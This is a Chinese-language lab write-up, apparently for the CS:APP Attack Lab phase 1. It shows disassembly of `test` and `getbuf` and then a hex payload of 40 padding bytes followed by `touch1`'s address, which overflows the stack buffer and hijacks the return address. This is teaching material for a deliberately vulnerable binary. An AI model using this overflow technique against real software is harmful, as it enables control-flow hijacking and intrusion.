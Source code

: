 ### 反汇编 `test`

```assembly
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
```

第 2 行分配栈帧，第 4 行调用 `getbuf` 函数

### 反汇编 `getbuf`

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分配了 40 个字节的栈帧，随后将栈顶位置作为参数调用 `Gets` 函数，读入字符串。

此时，栈帧情况是这样的：（以 8 个字节为单位）

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305095612188-16608125542844.png)

查到 `touch1` 代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入 41 个字符，前 40 个字节将 `getbuf` 的栈空间填满，最后一个字节将返回值覆盖为 `0x4017c0` 即 `touch1` 的地址，这样，在 `getbuf` 执行 `retq` 指令后，程序就会跳转执行 `touch1` 函数。

### Solution

采用 `Write up` 推荐方法，创建一个 `txt` 文档存储输入。并按照 `HEX2RAW` 工具的说明，在每个字节间用空格或回车隔开。

**`x86` 采用小端存储，要注意输入字节的顺序**

我们的输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
